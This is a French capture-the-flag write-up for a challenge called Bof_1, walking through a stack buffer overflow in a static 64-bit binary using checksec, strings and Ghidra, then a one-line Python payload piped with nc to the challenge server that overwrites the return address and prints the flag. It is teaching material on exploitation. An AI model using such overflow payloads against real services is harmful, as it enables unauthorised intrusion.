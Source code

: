 # Bof_1

## Analyse

Ce challenge nous offre un binaire nommé `service`, d'après son titre, je sais que je vais devoir exploiter un buffer overflow.
Je commence par analyser le fichier

```js
aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_1 $ checksec ./service
[*] '/home/aether/Documents/ctf/cyberthreatforce/pwn/Bof_1/service'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_1 $ file ./service            
./service: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=235b90b9a6b2b68413c7825c0c236da020a0bd10, for GNU/Linux 4.4.0, not stripped
```

Avec ces commandes, je sais que les adresses dans le binaires seront toujours les mêmes grâce au `No PIE`. De plus, je sais que le binaire est un `x64` compilé en statique.

Un rapide coup de `strings` montre aussi que le flag est potentiellement déjà dans le binaire.

```js
aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_1 $ strings ./service | grep CYBERTF
CYBERTF{H
CYBERTF{YZY}
CYBERTF{_____________________}
```

## Récupération du flag

Depuis Ghidra, on apprend que le flag est affiché par la fonction `magie` après une condition.

```c
void magie(int param_1)
{
  int iVar1;
  undefined8 local_15;
  undefined4 local_d;
  undefined local_9;
  
  local_15 = 0x7b46545245425943;
  local_d = 0x7d595a59;
  local_9 = 0;
  if ((param_1 != -1) && (iVar1 = thunk_FUN_004010e6("CYBERTF{YZY}",&local_15), iVar1 != 0)) {
    puts("CYBERTF{_____________________}");
    return;
  }
  puts("Good Way");
  return;
}
```

Etant donné que le flag est directement affiché via la commande `puts`, il suffit de jump sur l'adresse initilisant les registres pour faire afficher le flag.

```js
                             LAB_004018da                                    XREF[1]:     004018c7(j)  
        /* JUMP ICI */
        004018da 48 8d 05        LEA        RAX,[s_CYBERTF{_____________________}_0049f020]  = "CYBERTF{_____________________}"
                 3f d7 09 00
        004018e1 48 89 c7        MOV        RDI=>s_CYBERTF{_____________________}_0049f020   = "CYBERTF{_____________________}"
        004018e4 e8 07 67        CALL       puts                                             int puts(char * __s)
                 01 00
        004018e9 90              NOP

```

D'après Ghidra l'adresse serait `0x004018da`.

Toujours depuis Ghidra, je récupère le nom de la fonction qui va me permettre de faire un overflow ainsi que son index pour dépasser le tampon.

```js
undefined8 main(void)
{
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  
  ignorMe();
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  puts("hello who are you?");
  __isoc99_scanf(&DAT_0049f052,&local_38);
  printf("Hello %s\n",&local_38);
  return 0;
}
```

La variable est `local_38` dans la fonction `__isoc99_scanf` qui ne vérifie pas la longueur qui lui est envoyé.

```js
undefined8        Stack[-0x38]:8 local_38                                XREF[3]:     00401935(W)
```

Il ne me reste plus qu'à overflow avec `0x38` caractère puis de mettre l'adresse sur laquelle je veux tomber pour récupérer le flag.

```js
aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_1 $ python -c "print('A' * 0x38 + '\xda\x18\x40')" | nc 144.217.73.235 21556
hello who are you?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@
CYBERTF{B@sic_Buff3r_Ov3rflow}
```

## Exploitation via ROPchain

Merci à @0xSoEasy, le script est disponible ici: <https://github.com/AetherBlack/CyberThreatForce2021/blob/main/Pwn/Bof_1/solve_ROPchain.py>.

## Flag

flag: `CYBERTF{B@sic_Buff3r_Ov3rflow}`
